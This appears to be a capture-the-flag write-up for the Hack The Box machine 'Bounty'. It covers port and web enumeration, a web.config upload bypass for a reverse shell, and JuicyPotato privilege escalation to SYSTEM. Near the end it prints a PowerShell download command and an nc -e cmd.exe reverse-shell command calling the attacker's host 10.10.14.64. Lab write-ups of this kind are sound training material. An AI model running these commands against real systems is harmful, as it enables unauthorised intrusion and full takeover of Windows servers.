









# Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Thu Aug 11 19:14:08 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv bounty.htb
Nmap scan report for bounty.htb (10.129.83.203)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-11 19:14:08 CDT for 27s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 11 19:14:35 2022 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Thu Aug 11 19:16:17 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80 bounty.htb
Nmap scan report for bounty.htb (10.129.83.203)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-11 19:16:17 CDT for 8s

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 11 19:16:25 2022 -- 1 IP address (1 host up) scanned in 8.33 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get much back, so it looks like we are working with Microsoft IIS httpd 7.5 on port 80.

# Enumeration

## Nikto

There really wasn't much from Nikto, although I did make note of the x-aspnet-version header as I thought this could be helpful for later.

```
- Nikto v2.1.6/2.1.5
+ Target Host: bounty.htb
+ Target Port: 80
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 2.0.50727
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
```

## Feroxbuster

`feroxbuster -u http://bounty.htb -x asp,aspx,txt -o scan.txt -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt`

Feroxbuster discovered an important page: `/transfer.aspx`

```
200      GET       32l       53w      630c http://bounty.htb/
200      GET       32l       53w      630c http://bounty.htb/
301      GET        2l       10w      155c http://bounty.htb/aspnet_client => http://bounty.htb/aspnet_client/
403      GET       29l       92w     1233c http://bounty.htb/aspnet_client/
200      GET       22l       58w      941c http://bounty.htb/transfer.aspx
301      GET        2l       10w      155c http://bounty.htb/uploadedfiles => http://bounty.htb/uploadedfiles/
403      GET       29l       92w     1233c http://bounty.htb/uploadedfiles/
```

## Website

We are greeted with Merlin. Running `binwalk` and `steghide` against this image was not helpful.


Looking at `/transfer.aspx`, we see there is a form to upload files. When testing this form, we find that it rejects a number of file extensions except for images -- such as `.png` and `.jpg`. Injecting a payload into an image file using msfvenom does not work, so I end up coming across this page on Hacktricks which explains using `web.config` for our initial foothold.


I found a GitHub repo with a malicious `web.config` which returns a web shell although unfortunately I was not able to get a reverse shell back for some reason.

https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config


After a bit more digging, I come across a different `web.config`:
https://raw.githubusercontent.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/master/web.config

I'll give this a try so I edit the `web.config` and make sure `Invoke-PowerShellTcp.ps1` is also modified to catch my reverse shell.


`Invoke-PowerShellTcp.ps1`:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1


Start my python http server for `Invoke-PowerShellTcp.ps1` to be downloaded to the victim...


And start nc to catch the reverse shell from Bounty.


After uploading the malicious `web.config` and visiting `http://bounty.htb/Uploadedfiles/web.config`, we get a shell back as `bounty\merlin`. When checking current privileges for the service account with `whoami /priv` we that it looks like `SeImpersonatePrivilege` is enabled. From previous boxes, I know that when we get a shell back as a service account with this privilege enabled, that Juicy Potato might be a good privilege escalation tool.

I'll download Netcat and JuicyPotato to the box using the following command `IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.64:9999/JuicyPotato.exe', 'C:\windows\temp\jp.exe')`



I will use the following Juicy Potato command to achieve privilege escalation to SYSTEM.

`.\jp.exe -l 1234 -p "C:\Windows\System32\cmd.exe" -a "/c c:\windows\temp\nc64.exe -e cmd.exe 10.10.14.64 7331" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`

Information about the flags that were used can be found from JP documentation, although I will briefly explain:

`-l 1234`: Use arbitrary DCOM port 1234.

`-p "C:\Windows\System32\cmd.exe"`: Tell JP to use `cmd.exe` as the main program for this.

`-a "/c c:\windows\temp\nc64.exe -e cmd.exe 10.10.14.64 7331"`: This is the command that should be passed to `-p` which in our case is `cmd.exe`. To be specific, we are telling `cmd.exe` to execute `nc64.exe` with elevated privileges and execute our reverse shell which we will catch on a new netcat instance listening on port 7331.

`-t *` try both `createprocess` calls (`<t> CreateProcessWithTokenW, <u> CreateProcessAsUser)`

`-c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the CLSID I found from JP's documentation here (Note: it took a few tries to find a CLSID that worked):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

And we are now SYSTEM!



For some reason the `user.txt` flag for `merlin` was hidden which was a little confusing, but I ran `dir /A` to show all files to see that it exists. Other than that, we collect our loot as normal and move on to the next box! :)






